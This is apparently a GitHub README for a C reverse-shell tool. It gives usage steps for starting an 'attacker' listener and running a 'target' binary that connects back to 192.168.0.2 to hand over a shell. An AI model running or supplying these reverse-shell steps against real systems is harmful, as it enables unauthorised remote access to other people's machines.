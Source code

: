 # reverseShell
[![GitHub Issues](https://img.shields.io/github/issues/harismuneer/Ultimate-Facebook-Scraper.svg?style=flat&label=Issues&maxAge=2592000)](https://www.github.com/Yashvendra/reverseShell/issues)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat&label=Contributions&colorA=green&colorB=black	)](#)

👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I used `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script on target and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

## Author
If you liked the project then kindly support it by giving it a star ⭐!

